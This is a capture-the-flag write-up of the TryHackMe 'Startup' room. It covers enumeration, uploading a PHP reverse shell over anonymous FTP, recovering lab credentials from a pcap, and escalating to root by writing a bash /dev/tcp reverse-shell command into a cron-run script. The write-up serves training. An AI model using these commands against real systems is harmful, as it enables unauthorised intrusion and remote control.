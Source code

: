 #startup

![alt_text](startup/startup1.png "image_tooltip")

This is a writeup for the TryHackMe room [Startup created by elbee](https://tryhackme.com/room/startup)

Please note that I completed this room running Parrot OS so there might be syntax differences.
The IP 10.10.173.246 seen in the screenshots was the victim IP given to me by TryHackMe. Just subsitute for the one that appears to you after clicking on "start machine"

Hope you enjoy!

![alt_text](startup/startup2.png "image_tooltip")


Let's start our enumeration by running a nmap scan

`nmap -sC -A -T 4 <IP>`

![alt_text](startup/startup4.png "image_tooltip")

![alt_text](startup/startup5.png "image_tooltip")

We see here that 3 ports are open ... 21 (FTP), 22 (SSH) and 80 (HTTP)

Nothing much going on the webpage

![alt_text](startup/startup6.png "image_tooltip")

And it is always a good practice to take a peek at the page source ... lots of great information can be found there!!

![alt_text](startup/startup7.png "image_tooltip")

But not much going on here in this case ... :(

Going back to our nmap scan, we see that FTP allows us to login as anonymous! 
Just type in `FTP <IP` and then `anonymous` when prompted to enter the username.
When the password prompt comes, just hit Enter

![alt_text](startup/startup77.png "image_tooltip")

(I forgot to take a screenshot of this when I first completed the room, that's why the IP is different! Sorry about that!!)

some interesting files that we can download to our machine by simply typing `get <file name>`

here is the output of one of them!!

![alt_text](startup/startup9.png "image_tooltip") 

That's a great clue that indicates that there is an upload/download capability in the webpage that we can exploit!

Next, we try to find hidden directories by using gobuster

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`


![alt_text](startup/startup10.png "image_tooltip")

We found /files to let's go take a peek at it in our browser

![alt_text](startup/startup11.png "image_tooltip")

GREAT finding!! FTP is a part of their web server which means not only can we download files as the note we found above implies, but we can also upload a malicious file ... a reverse php shell in this case!!

Many php reverse shells you can use out there... I included the one I used here in this repository!!

![alt_text](startup/startup12.png "image_tooltip") 

Let's check in the browser if our shell was uploaded correctly....

![alt_text](startup/startup13.png "image_tooltip")

AWESOME!!! :)

Next we need to set up a netcat listener in our terminal using the same port we included in our reverse shell

`nc -lvnp 7777` (7777 is the port I used) 

To activate the shell, just click on it in the browser and you should get a response right away!!

![alt_text](startup/startup14.png "image_tooltip")

Before starting to take a peek around, stabilize the shell by entering

`python3 -c 'import pty;pty.spawn("bin/bash")'`

![alt_text](startup/startup15.png "image_tooltip")

![alt_text](startup/startup16.png "image_tooltip")

And here we have the answer for the first question!! :)

Now we need to start escalating our privileges ...
I tried many tools such as LinPeas ... LinEnum ...even autoexploits! without much luck unfortunately, so
manual enumeration it is!! After doing plenty of digging I came across an interesting looking file at the /incidents directory!
It's a pcap file, which means we need Wireshark to analyze it!

Setting a python server in our shell, we can download the file to our system by using wget!

![alt_text](startup/startup18.png "image_tooltip")

![alt_text](startup/startup17.png "image_tooltip")

By analizing the file strings, we come accross some credentials!! `lennie:c4ntg3t3n0ughsp1c3`

Now we can just simply ssh into our victim using those credentials! You also can just type `su lennie` in the www-data shell and enter the password when prompted!!

![alt_text](startup/startup19.png "image_tooltip")

![alt_text](startup/startup20.png "image_tooltip")

And here is our first flag!!!

Now we just need to once more escalate our privileges to find our root.txt

After lots of digging, I found an interesting file here ...

![alt_text](startup/startup21.png "image_tooltip")

That does look like a cronjob and the best tool to test this theory is pspy! 
We need to upload the tool into our victim and a good spot to do that is in the /tmp 

Once again, start a python server in your machine and upload the tool to lennie's /tmp through wget!!

![alt_text](startup/startup22.png "image_tooltip")

![alt_text](startup/startup23.png "image_tooltip")

And we find our cronjob..

Going throught the contents of planner.sh we see a /etc/print.sh and also check that lennie is the owner and able to edit it, so that's exactly what we will do!!

`echo 'bash -c "bash -i >& /dev/tcp/10.4.31.108/7777 0>&1"' > /etc/print.sh` 

(remember to substitute the IP for your TryHackMe VPN IP or the IP of the attackbox if you are using their in browser machine)

![alt_text](startup/startup80.png "image_tooltip")

Set then a netcat listener and wait for the cronjob to run!!

![alt_text](startup/startup24.png "image_tooltip")

SWEET!! Now to find our root.txt

![alt_text](startup/startup25.png "image_tooltip")

And we are done!!!!!!!!!!!!!!!!

I hope you have lots of fun completing this room and maybe learn a few things! :)

Thank you so much for using/reading my writeup!!

                                         `CryptoTzipi aka CyberLola`
                                         
                                         ![alt_text](startup/startup26.png "image_tooltip")













